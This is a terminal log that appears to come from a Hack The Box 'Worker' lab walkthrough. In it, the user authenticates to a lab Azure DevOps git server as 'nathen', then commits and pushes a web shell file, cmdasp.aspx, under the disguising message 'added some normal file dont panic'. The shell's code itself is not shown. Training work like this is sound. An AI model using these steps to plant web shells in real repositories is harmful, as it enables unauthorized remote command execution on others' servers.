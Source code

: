 ```bash
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git push --set-upstream origin ahmad
Username for 'http://devops.worker.htb': nathen
Password for 'http://nathen@devops.worker.htb': 
Total 0 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
To http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral
 * [new branch]      ahmad -> ahmad
branch 'ahmad' set up to track 'origin/ahmad'.
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git checkout ahmad
A       cmdasp.aspx
Already on 'ahmad'
Your branch is up to date with 'origin/ahmad'.
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git commit -m "added some normal file dont panic" 
Author identity unknown

*** Please tell me who you are.

Run

  git config --global user.email "you@example.com"
  git config --global user.name "Your Name"

to set your account's default identity.
Omit --global to set the identity only in this repository.

fatal: unable to auto-detect email address (got 'pwn@kali.(none)')
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git push origin ahmad
Username for 'http://devops.worker.htb': nathen
Password for 'http://nathen@devops.worker.htb': 
Everything up-to-date
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git config --global user.email "you@example.com"
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git config --global user.name "Your Name"
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git commit -m "added some normal file dont panic" 
[ahmad 2854b87] added some normal file dont panic
 1 file changed, 42 insertions(+)
 create mode 100644 cmdasp.aspx
                                                                                                                  
┌──(pwn㉿kali)-[~/svn/cloned/spectral]
└─$ git push origin ahmad                             
Username for 'http://devops.worker.htb': nathen
Password for 'http://nathen@devops.worker.htb': 
remote: Storing index... done (173 ms)
To http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral
   8a41e08..2854b87  ahmad -> ahmad
                                     
```
